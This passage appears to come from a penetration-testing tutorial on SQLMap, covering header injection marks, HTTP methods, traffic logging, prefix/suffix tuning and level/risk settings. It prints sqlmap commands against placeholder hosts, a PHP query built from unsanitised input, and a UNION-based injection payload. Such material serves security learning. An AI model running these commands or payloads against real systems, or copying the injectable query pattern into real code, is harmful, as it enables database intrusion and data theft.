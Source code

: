 It is possible to test the headers for the SQLi vulnerability. The easiest way is to specify the "custom" injection mark after the header's value (e.g. `--cookie="id=1*"`). Also, we can specify the HTTP method with `--method`:
```console
zero@io$ sqlmap -u www.target.com --data='id=1' --method PUT
```

## Handling SQLMap Errors 

To display errors we can use the flag `--parse-errors`. If we want to store the traffic to an output file `-t`:
```console
zero@pio$ sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

As always, the `-v` increase the verbosity. And the `--proxy` allow us to redirect the request, for example to Burp.

## Attack Tuning

### Prefix/Suffix 

There is a requirement for special prefix and suffix values in rare cases, not covered by the regular SQLMap run:
```console
zero@pio$ sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

For example if the vulnerable code is:
```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

The payload will be:
```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

### Level/Risk 

There is a possibility for users to use bigger sets of boundaries and vectors, already incorporated into the SQLMap:
- `--level` from 1-5 (default 1) extends both vectors and boundaries being used, based on their expectancy of success
- `--risk` from 1-3 (default 1) extends the used vector set based on their risk of causing problems at the target side (risk of DOS)

Also, the verbosity can be modify (for example `-v 3`). For example:
```console
zero@pio$ sqlmap -u www.example.com/?id=1 --level=5 --risk=3
```

### Advanced Tuning 
